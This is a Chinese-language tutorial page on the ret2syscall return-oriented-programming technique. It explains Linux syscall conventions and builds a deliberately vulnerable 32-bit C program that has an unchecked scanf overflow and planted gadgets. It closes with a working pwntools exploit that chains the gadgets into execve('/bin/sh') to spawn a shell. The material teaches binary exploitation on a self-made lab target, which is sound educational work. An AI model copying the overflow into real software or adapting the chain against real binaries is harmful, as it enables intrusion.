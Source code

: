 ```yaml
---
title: "Ret2syscall"
description: ""
lead: ""
date: 2023-03-28T21:07:32+08:00
lastmod: 2023-03-28T21:07:32+08:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
    identifier: "ret2syscall-0eacdc5627a9d644483a912a87526e3d"
weight: 2
toc: true
---
```


## 0x01 介绍

syscall又称为系统调用，是操作系统给用户的API接口，可以用来使用电脑资源。首先需要来熟悉系统调用的使用方式，对于32程序来说是通过 `int 0x80` 指令来执行系统调用，而64位程序则是通过 `syscall` 指令来执行。在执行命令前，需要把参数和系统调用号准备好，系统调用号是操作系统分配给不同系统调用的一个数字，以便内核区分它们，我们可以在 `/usr/include/asm/unistd.h` 找到32位和64位的系统调用号分别存储的文件

![bd451c85c8cfb9e7a7d71f72d4318dcd](images/bd451c85c8cfb9e7a7d71f72d4318dcd.png)  

我们可以看一下32位的系统调用号

![34359385b45288b164e6531b2dc74bcf](images/34359385b45288b164e6531b2dc74bcf.png)  

前部分是系统调用名称，比如 `__NR_read` 就是read系统调用，而后半部分就是系统调用号，都是数字，例如 `3` 就是read的系统调用号0。64位的系统调用号也是同理。

当执行内陷指令之前，需要将系统调用号传入ax寄存器中。其次需要在执行内陷指令前要做的就是传递参数给内核，这里不管是32位还是64位的程序都必须用寄存器来传递参数。对于32位来说，参数寄存器的传递顺序是 `ebx、ecx、edx、esi、edi` ，对于64位来说顺序为 `rdi、rsi、rdx、rcx、r8、r9` 。我们以内联汇编的形式来实现一个简单的系统调用

```c
char *buf = "hello world\n";
void main();
asm(
    ".text\n"
    ".global main\n"
    "main:\n"
    // write(1, "hello world\n", 12)
    "mov ebx, 1\n"    // 第一个参数，标准输出流
    "mov ecx, buf\n"    // 第二个参数，字符串地址
    "mov edx, 12\n"    // 第三个参数，输出字节数
    "mov eax, 4\n"    // write的系统调用号
    "int 0x80\n"    // 内陷指令
);
// gcc test.c -o test -m32 -masm=intel
```

运行效果为

![c0fa4df1d7b98a107b9db88fc1f73c30](images/c0fa4df1d7b98a107b9db88fc1f73c30.png)  

而ret2syscall它要完成的就是去调用某个系统调用来完成getshell的操作。ret2syscall作为ROP系列之一，它的核心还是溢出，不过它的难点就在于溢出后的步骤。之前的ret2text是直接返回到程序中已有的getshell代码片段，ret2syscall则没有现成的getshell代码片段出现，它获取shell的方式是通过多个代码片段之间的跳转执行，我们称这多个代码片段组成的类似于链状的执行过程称为ROP链。大概流程如下

![04f861564255fd35278467fc20a8b9d0](images/04f861564255fd35278467fc20a8b9d0.png)  

大概来解释这幅图，首先当执行到函数的ret指令时，ret会跳转到当前栈顶指向的代码处执行，并将当前栈顶移动到下一个栈单元，这里我们将其覆盖成了修改参数寄存器代码片段的地址，接下来一段时间都会去执行修改参数寄存器的操作，直到执行到代码片段的ret指令，对于这条ret指令来说其跳转的地址就是图中第一条虚线即修改ax寄存器的代码片段的地址（应为当前栈顶就是该栈单元），接着就会去执行修改ax寄存器的代码，直到执行到其ret指令处，对于它的ret指令来说返回地址是第二条虚线即内陷指令地址，最后跳转执行内陷指令后即可获取到shell。当然实际情况可能会比这个复杂很多。

对于ret2syscall来说有几个代码片段是必须要有的，首先就是内陷指令片段，正常的程序一般不会有内陷指令，如果有内陷指令的题目大概路就是ret2syscall的方式去解决。其次就是控制ax寄存器的指令，只有控制了ax寄存器才可以设定我们想要的系统调用号。最后就是设定参数的代码片段，每个参数寄存器必须设置为指定的值，否则大概率都是执行失败。

我们以一个例子来说

```c
#include<stdio.h>
char *bin_sh = "/bin/sh";
void hint();
asm(
    ".text\n"
    ".global hint\n"
    "hint:\n"
    "inc eax\n"
    "ret\n"
    "xor eax, eax\n"
    "xor ebx, ebx\n"
    "xor ecx, ecx\n"
    "xor edx, edx\n"
    "ret\n"
    "int 0x80"
);

void run() {
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2syscall.c -o ret2syscall -no-pie -fno-pic -fno-stack-protector -m32 -masm=intel
```

这里我们以内联汇编的方式写了一些必要的代码片段以完成ret2syscall的操作。在ret2syscall中获取shell的系统调用只有一种即 `execve` 系统调用，它的作用就是执行一个新的程序。execve接收三个参数，第一个参数是程序名称，第二个参数是给程序的参数，第三个参数是环境参数，对于shell来说只需要第一个参数设置为 `/bin/sh` 即可，后两个为null即0就行。

首先是找到修改参数寄存器的代码片段，在上面的源文件中可以很明显看到有 `xor ecx, ecx; xor edx, edx` 这两条指令可以完成第二、三两个参数寄存器的设置。而对于第一个参数寄存器的设置则需要通过其他指令来完成，通常寻找的是 `pop ebx; ret` 代码片段，该代码片段会将当前栈顶的值弹出存入到ebx中并返回下一个栈单元，如果我们在栈顶存入 `/bin/sh` 字符串地址则可以直接完成第一个参数寄存器的设置

![232fb5b32f5452ad8a9d67414334b4c5](images/232fb5b32f5452ad8a9d67414334b4c5.png)  

所有的参数寄存器都执行完成后即可对ax寄存器进行设置，这里存在一个 `inc eax; ret` 代码片段，它可以对eax进行加一的操作，我们只要多次执行这个代码片段直到ax寄存器为execve系统调用号的值就行。最后既可以跳转去执行内陷指令获取shell了。所以整个的栈布局为

![04f411c8c99c68955cdbe5866de7210e](images/04f411c8c99c68955cdbe5866de7210e.png)  

建议可以调试看看具体的ROP链执行过程

然后我们需要找出这些代码片段的地址，这里可以使用 `ROPgadget` 工具来查找

![0bb4220de7d1cd13dbbce3991431580b](images/0bb4220de7d1cd13dbbce3991431580b.png)  

![55b4ddbfa236719c41cc04708c4239b8](images/55b4ddbfa236719c41cc04708c4239b8.png)  

![8748ec9f9380ccc2ff4d633953cc64c8](images/8748ec9f9380ccc2ff4d633953cc64c8.png)  

![b6936a41caea9de420af66aafac841ad](images/b6936a41caea9de420af66aafac841ad.png)  

而execve的系统调用号在文件中可以查到为 `11` ，通过调试我们可以知道当run函数执行到ret指令的时候eax寄存器的值为1。

![4bffa0dbc1505963a34132bb1f4b608b](images/4bffa0dbc1505963a34132bb1f4b608b.png)  

所以inc指令只需要执行10次即可。最终可以写出Exploit

```python
from pwn import*
o = process("./ret2syscall")
bin_sh = 0x8048550    # /bin/sh字符串地址
pop_ebx = 0x8048311    # pop ebx;ret代码片段地址
xor_ret = 0x8048471    # xor ecx, ecx;xor edx, edx;ret代码片段地址
int_80 = 0x8048476    # int 0x80代码片段地址
inc_eax = 0x804846b    # inc eax;ret代码片段地址
payload = b'a'*28    # 填充局部变量和函数返回地址之间的空隙
payload += p32(pop_ebx) + p32(bin_sh)    # 设置第一个参数寄存器
payload += p32(xor_ret)    # 设置第二三个参数寄存器
payload += p32(inc_eax)*10   # eax累加到11
payload += p32(int_80)    # 执行系统调用
o.sendline(payload)
o.interactive()
```

![aa241111f472d5e8dc9d1eed30c466bc](images/aa241111f472d5e8dc9d1eed30c466bc.png)
